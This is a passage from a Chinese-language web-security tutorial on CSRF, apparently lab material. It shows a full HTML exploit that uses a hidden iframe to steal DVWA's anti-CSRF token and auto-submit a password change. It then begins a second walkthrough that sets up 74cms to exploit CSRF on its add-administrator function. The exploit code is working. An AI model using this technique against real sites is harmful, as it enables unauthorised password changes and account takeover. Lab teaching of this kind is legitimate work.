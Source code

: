要绕过Anti-CSRF token机制，首先要获取token，再使用这个token进行修改密码。
然后构造以下代码
```
<html>
<body>
<script type="text/javascript">
    function attack()
  {
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
  document.getElementById("transfer").submit(); 
  }

</script>
<iframe src="http://192.168.1.108/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">

</iframe>
<body onload="attack()">

  <form method="GET" id="transfer" action="http://192.168.1.108/dvwa/vulnerabilities/csrf">

   <input type="hidden" name="password_new" value="hongri">

    <input type="hidden" name="password_conf" value="hongri">

   <input type="hidden" name="user_token" value="">

  <input type="hidden" name="Change" value="Change">

   </form>

</body>
</html>
```
访问后就立即修改密码
![图片](https://uploader.shimo.im/f/wOPXowawXgM6U0Ff.png!thumbnail)
### 1.2.2.5 参考文章
[https://www.freebuf.com/articles/web/118352.html](https://www.freebuf.com/articles/web/118352.html)
# 1.2.3 CSRF漏洞利用实例之骑士cms
### 1.2.3.1 安装步骤
骑士cms下载地址：[http://www.74cms.com/download/load/id/155.html](http://www.74cms.com/download/load/id/155.html)
漏洞环境：windows、phpstudy
存在漏洞：POS型CSRF、代码执行

下载解压，访问首页
![图片](https://uploader.shimo.im/f/gLOJSwqpyJUfqRyy.png!thumbnail)
填写信息
![图片](https://uploader.shimo.im/f/C483L2m5JJsgw41r.png!thumbnail)
安装完成
![图片](https://uploader.shimo.im/f/M5fbmk0Tzb4nfFGc.png!thumbnail)
### 1.2.3.2 利用过程
安装好后，进入添加管理员界面进行抓包
![图片](https://uploader.shimo.im/f/wRzubP3gHqw9LfrF.png!thumbnail)
![图片](https://uploader.shimo.im/f/ZAx3cBhZCCQeEOAW.png!thumbnail)